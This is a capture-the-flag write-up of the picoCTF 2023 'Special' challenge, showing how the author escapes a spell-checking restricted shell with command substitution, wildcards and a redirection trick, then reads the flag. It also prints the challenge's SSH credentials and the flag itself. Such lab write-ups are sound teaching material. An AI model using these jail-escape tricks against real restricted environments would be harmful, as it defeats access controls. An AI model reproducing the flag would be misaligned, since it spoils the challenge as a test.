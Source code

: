 # Special

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

Author: LT 'syreal' Jones

#### Description

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM) Start your instance to see connection details. 

`ssh -p 61464 ctf-player@saturn.picoctf.net`

The password is `d8819d45`

## Find the flag

**In this challenge, we can SSH into the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/picoCTF-2023)-[2023.03.16|22:30:34(HKT)]
└> ssh -p 61464 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61464 ([13.59.203.175]:61464)' can't be established.
ED25519 key fingerprint is SHA256:tJ0wuU5yBvNO/FrkHmR9iY36VJClMhKV+Hq2sxqKFmg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61464' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
[...]
Special$ 
```

```shell
Special$ whoami    
Whom 
sh: 1: Whom: not found
```

Hmm... Looks like we're inside a **Bash jail environment**!

As you can see, it ***capitalized*** the first character of our commands.

Hmm... Can we spawn another shell?

```shell
Special$ /bin/bash
Why go back to an inferior shell?
```

Oh... We can't.

**Based on my experience, we can use `$(<command>)` to execute OS commands:**
```shell
Special$ $(id)
$(id) 
sh: 1: uid=1000(ctf-player): not found
```

Hmm... Weird. We see some outputs.

**After some testing, I found the `*` is doing weird stuff:**
```shell
Special$ *
* 
sh: 1: blargh: not found
```

`blargh : not found`??

The `*` is the wildcard character, which reads everything in the current directory.

That being said, **there's a file/directory called `blargh`.**

Now, we can also use another trick to read the output:
```shell
<1&<command_here>
```

**The `<1&` is redirecting the command's output standard output (`1`).**

**Armed with above information, we can try to read the flag!**
```shell
<1&cat * 
sh: 1: cannot open 1: No such file
cat: blargh: Is a directory
```

Hmm... The `blargh` is a directory.

**We can use `cat blargh/*` to read everything inside that directory:**
```shell
Special$ <1&cat blargh/*
<1&cat blargh/* 
sh: 1: cannot open 1: No such file
picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}Special$ 
```

Boom! We got the flag!

- **Flag: `picoCTF{5p311ch3ck_15_7h3_w0r57_0c61d335}`**

## Conclusion

What we've learned:

1. Bash Jail Escape